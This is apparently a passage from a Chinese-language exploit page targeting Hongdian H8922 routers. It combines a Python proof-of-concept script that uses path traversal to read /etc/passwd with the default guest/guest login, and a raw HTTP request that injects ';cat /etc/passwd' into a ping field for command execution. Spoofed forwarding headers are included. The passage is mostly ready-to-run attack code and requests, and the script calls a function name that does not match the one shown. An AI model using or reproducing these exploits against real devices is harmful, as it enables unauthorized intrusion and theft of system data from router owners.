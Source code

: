     def POC_2(target_url, filename):
        vuln_url = target_url + "/log_download.cgi?type=../..{}".format(filename)
        headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
        }
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
            print("\033[32m[o] {} \033[0m".format(response.text))

        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)


    if __name__ == '__main__':
        title()
        filename = '/etc/passwd'
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        POC_1(target_url, filename)

宏電 H8922 後台命令執行漏洞
---------------------------

登錄後台(存在訪客用戶默認賬號密碼 guest/guest) 使用 ; 命令拼接執行任意命令


    POST /tools.cgi HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Content-Length: 96
    Cache-Control: max-age=0
    Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
    Content-Type: application/x-www-form-urlencoded
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
    x-forwarded-for: 127.0.0.1
    x-originating-ip: 127.0.0.1
    x-remote-ip: 127.0.0.1
    x-remote-addr: 127.0.0.1
    Connection: close

    op_type=ping&destination=;cat /etc/passwd&user_options=uid%3D0%28root%29+gid%3D0%28root%29%0D%0A

### POC


    import requests
    import sys
    import random
    import re
    from lxml import etree
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
